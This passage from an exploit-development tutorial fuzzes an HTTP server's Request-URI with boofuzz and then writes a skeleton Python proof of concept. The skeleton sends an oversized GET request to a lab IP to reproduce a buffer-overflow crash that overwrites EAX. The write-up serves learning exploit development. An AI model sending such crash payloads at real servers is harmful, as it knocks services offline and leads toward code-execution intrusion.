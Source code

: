 ```python
        s_delim(" ", name='space-2', fuzzable = False)
        s_string('HTTP/1.1', name='HTTP-Version', fuzzable = False)
        s_static("\r\n", name="Request-Line-CRLF")
    s_static("\r\n", "Request-CRLF")

    session.connect(s_get("Request"))

    session.fuzz()


if __name__ == "__main__":
    main()
```

Again we get a crash and EAX is overwritten with `C` values. So we know for certain the `'Request-URI'` entity is vulnerable. Time to create a skeleton and recreate the crash. 

![](/assets/images/CTP/efscrash2.JPG)

## Skeleton Exploit

The first thing I did at this point was google for 'http skeleton exploits' and came across this [github repo](https://github.com/HanseSecure/ExploitDev/tree/master/poc) which included an http exploit skeleton. After modifying it slightly to fit my personal taste and our vulnerability analysis up to this point, our skeleton looks like this:
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

crash = "A" * 5000


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```

(Notice that we took out the `'\n'` after the `'GET'` in our exploit code and replaced it with a space.)

Sending this payload crashes the server once more and we see that EAX has been overwritten with `A` values, we are in business!
